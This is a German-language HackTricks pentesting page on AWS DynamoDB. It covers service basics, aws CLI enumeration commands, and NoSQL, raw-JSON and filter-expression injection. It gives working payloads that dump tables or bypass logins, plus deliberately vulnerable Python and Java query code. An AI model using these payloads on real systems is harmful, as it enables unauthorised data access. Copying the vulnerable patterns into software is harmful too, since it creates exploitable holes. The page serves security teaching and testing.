 # AWS - DynamoDB Enum

{{#include ../../../banners/hacktricks-training.md}}

## DynamoDB

### Grundinformationen

Amazon DynamoDB wird von AWS als eine **vollständig verwaltete, serverlose, Schlüssel-Wert NoSQL-Datenbank** präsentiert, die für die Unterstützung von leistungsstarken Anwendungen unabhängig von ihrer Größe konzipiert ist. Der Dienst bietet robuste Funktionen, einschließlich integrierter Sicherheitsmaßnahmen, unterbrechungsfreier Backups, automatisierter Replikation über mehrere Regionen, integrierter In-Memory-Caching und praktischer Datenexport-Utilities.

Im Kontext von DynamoDB werden anstelle einer traditionellen Datenbank **Tabellen erstellt**. Jede Tabelle erfordert die Angabe eines **Partitionierungsschlüssels** als integralen Bestandteil des **Primärschlüssels der Tabelle**. Dieser Partitionierungsschlüssel, im Wesentlichen ein **Hash-Wert**, spielt eine entscheidende Rolle sowohl bei der Abfrage von Elementen als auch bei der Verteilung von Daten über verschiedene Hosts. Diese Verteilung ist entscheidend für die Aufrechterhaltung sowohl der Skalierbarkeit als auch der Verfügbarkeit der Datenbank. Darüber hinaus gibt es die Möglichkeit, einen **Sortierschlüssel** hinzuzufügen, um die Datenorganisation weiter zu verfeinern.

### Verschlüsselung

Standardmäßig verwendet DynamoDB einen KMS-Schlüssel, der **zu Amazon DynamoDB gehört,** nicht einmal den von AWS verwalteten Schlüssel, der zumindest zu Ihrem Konto gehört.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export nach S3

Es ist möglich, die **Erstellung von Tabellen-Backups** zu **planen** oder sie **auf Anfrage** zu erstellen. Darüber hinaus ist es auch möglich, **Point-in-Time Recovery (PITR) für eine Tabelle zu aktivieren.** Die Wiederherstellung zu einem bestimmten Zeitpunkt bietet kontinuierliche **Backups** Ihrer DynamoDB-Daten für **35 Tage**, um Sie vor versehentlichen Schreib- oder Löschvorgängen zu schützen.

Es ist auch möglich, **die Daten einer Tabelle nach S3 zu exportieren**, aber die Tabelle muss **PITR aktiviert** haben.

### GUI

Es gibt eine GUI für lokale Dynamo-Dienste wie [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack) usw., die nützlich sein könnte: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### Unauthenticated Access

{{#ref}}
../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md
{{#endref}}

### Privesc

{{#ref}}
../aws-privilege-escalation/aws-dynamodb-privesc.md
{{#endref}}

### Post Exploitation

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### Persistence

{{#ref}}
../aws-persistence/aws-dynamodb-persistence.md
{{#endref}}

## DynamoDB Injection

### SQL Injection

Es gibt Möglichkeiten, auf DynamoDB-Daten mit **SQL-Syntax** zuzugreifen, daher sind typische **SQL-Injektionen ebenfalls möglich**.

{{#ref}}
https://book.hacktricks.wiki/en/pentesting-web/sql-injection/index.html
{{#endref}}

### NoSQL Injection

In DynamoDB können verschiedene **Bedingungen** verwendet werden, um Daten abzurufen. Wie bei einer gängigen NoSQL-Injektion, wenn es möglich ist, **mehrere Bedingungen zu verketten, um** Daten abzurufen, könnten Sie versteckte Daten (oder die gesamte Tabelle dumpen).\
Hier finden Sie die von DynamoDB unterstützten Bedingungen: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html)

Beachten Sie, dass **verschiedene Bedingungen** unterstützt werden, wenn auf die Daten über **`query`** oder über **`scan`** zugegriffen wird.

> [!NOTE]
> Tatsächlich müssen **Query**-Aktionen die **Bedingung "EQ" (gleich)** im **primären** Schlüssel angeben, damit sie funktionieren, was sie viel **weniger anfällig für NoSQL-Injektionen** macht (und auch die Operation sehr eingeschränkt).

Wenn Sie die **Vergleichsoperation** ändern oder neue hinzufügen können, könnten Sie mehr Daten abrufen.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{{#ref}}
https://book.hacktricks.wiki/en/pentesting-web/nosql-injection.html
{{#endref}}

### Rohes Json-Injection

> [!CAUTION]
> **Diese Schwachstelle basiert auf dem dynamodb Scan Filter, der jetzt veraltet ist!**

**DynamoDB** akzeptiert **Json**-Objekte, um **Daten** in der DB zu **suchen**. Wenn Sie feststellen, dass Sie im Json-Objekt, das zum Suchen gesendet wird, schreiben können, könnten Sie die DB dumpen, alle Inhalte. 

Zum Beispiel, indem Sie in eine Anfrage injizieren wie:
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
Ein Angreifer könnte etwas injizieren wie:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

Beheben Sie die "EQ"-Bedingung, die nach der ID 1000 sucht, und suchen Sie dann nach allen Daten mit einer ID-Zeichenfolge größer als 0, was alles ist.

Ein weiteres **anfälliges Beispiel mit einem Login** könnte sein:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
Dies wäre anfällig für:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

Einige SDKs erlauben die Verwendung eines Strings, der die durchzuführende Filterung angibt, wie:
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
Sie müssen wissen, dass beim Suchen in DynamoDB zum **Ersetzen** eines Attributs **wertes** in **Filterausdrücken** während des Scannens der Elemente die Tokens mit dem **`:`**-Zeichen **beginnen** sollten. Solche Tokens werden zur Laufzeit mit dem tatsächlichen **Attributwert** **ersetzt**.

Daher kann ein Login wie das vorherige mit etwas wie folgendem umgangen werden:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{{#include ../../../banners/hacktricks-training.md}}
